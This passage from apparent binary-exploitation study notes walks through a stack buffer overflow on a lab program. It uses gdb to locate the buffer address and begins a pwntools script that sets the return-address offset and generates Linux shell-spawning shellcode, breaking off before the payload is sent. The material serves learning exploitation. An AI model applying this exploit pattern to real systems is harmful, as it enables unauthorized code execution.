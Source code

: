 ### Exploit Code

For simplicity, we can put our shell code at the beginning of our buffer string. The beginning address of our code will be the address we put into the position which is being placeheld by the 8 `B`s right now.

When we're done our buffer will look something like this:
<br>
<br>
![](/md-images/Pasted%20image%2020231121161123.png)
<br>
<br>
Instead of doing the math and crafting this string ourselves, we can take advantage of [python](https://github.com/TrshPuppy/obsidian-notes/blob/main/coding/languages/python.md) and [pwntools](https://docs.pwntools.com/en/stable/). If you need help finding and installing these tools, go check out [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses/) (it's free and awesome!)

#### Finding the address

To find the address of where our shellcode will land, we can use the `x` command in `gdb` and just ask to examine 280 - 16 bytes from the `$rsp` (we want to see 16 bytes past just to make sure the address is where we think it is):

```bash
(gdb) x/32xg $rsp-280-16
0x7fffffffdcb0: 0x0000000000403148      0x00000000004011dc
0x7fffffffdcc0: 0x4141414141414141      0x4141414141414141 # <---
0x7fffffffdcd0: 0x4141414141414141      0x4141414141414141
0x7fffffffdce0: 0x4141414141414141      0x4141414141414141
0x7fffffffdcf0: 0x4141414141414141      0x4141414141414141
0x7fffffffdd00: 0x4141414141414141      0x4141414141414141
0x7fffffffdd10: 0x4141414141414141      0x4141414141414141
0x7fffffffdd20: 0x4141414141414141      0x4141414141414141
...
```

From this we can see that our buffer _started at `0x7fffffffdcc0`_, so that's our target address for the shell code.

### Python & Pwntools

This is our exploit script:

```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes
overflow_offset_rip = 0x118

# we point saved rip to the address of the start of our buffer
new_rip = 0x7fffffffdcc0

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

```